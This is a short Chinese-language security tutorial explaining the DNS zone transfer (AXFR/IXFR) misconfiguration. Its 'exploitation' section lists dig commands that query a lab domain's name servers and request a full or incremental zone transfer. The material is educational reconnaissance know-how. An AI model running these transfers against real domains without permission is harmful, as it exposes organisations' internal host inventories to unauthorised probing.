


## 原理介绍

### 什么是域传送

DNS 域传送本来是主从 DNS 服务器之间同步区域数据的机制

常见有两种：

- AXFR：全量区域传送，一次把整个区域文件同步过去
- IXFR：增量区域传送，只同步变更的部分

它原本是给 DNS 运维用的，不是给普通外部用户开放的

### 漏洞原理

漏洞产生的核心原因是： 权威 DNS 服务器错误地允许任意主机发起 AXFR/IXFR 请求

正常情况下应该是，只允许指定的服务器IP发起请求，其他全部拒绝

## 利用方法

首先查目标域名的 NS 记录

```
dig NS lab.example.com
```



查到权威服务器后，再对其中某个 NS 验证：

```
dig AXFR lab.example.com @ns1.lab.example.com
```



有些环境也会测试 IXFR：

```
dig IXFR=1 lab.example.com @ns1.lab.example.com
```

